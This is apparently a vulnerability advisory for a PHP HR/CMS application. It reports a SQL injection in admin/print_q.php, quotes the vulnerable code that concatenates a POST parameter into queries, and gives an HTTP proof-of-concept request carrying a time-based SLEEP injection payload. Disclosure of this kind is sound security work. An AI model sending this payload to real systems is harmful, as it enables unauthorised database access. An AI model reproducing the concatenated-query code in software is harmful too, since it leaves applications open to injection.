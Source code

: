 ### Vulnerability file address

`admin/print_q.php` from line 125,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 128 `$statement2 = $conn->prepare($sq2);` ,line 129 `$statement2->execute();`,line 129 performs a SQL query, causing SQL injection

```php
..........
..........
..........
<?php
                                        $sql2 = "SELECT * FROM quotation where inv_id='" . $_POST['id'] . "'";


                                        $statement2 = $conn->prepare($sql2);
                                        $statement2->execute();
                                        while ($row2 = $statement2->fetch(PDO::FETCH_ASSOC)) {

                                            // print_r($row2);exit;

                                            $sql1 = "SELECT * FROM tbl_product where pid='" . $row2['product_id'] . "'";


                                            $statement1 = $conn->prepare($sql1);
                                            $statement1->execute();

                                            $row1 = $statement1->fetch(PDO::FETCH_ASSOC);
// print_r($row1);exit;

                                            $no += 1;
                                        ?>
..........
..........
..........
```

### POC

```http
POST /CMS/php/_hr_soft/admin/print_q.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

id=1000';SELECT SLEEP(5)#
```

### Attack results pictures

![image-20250130161319170](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301613212.png)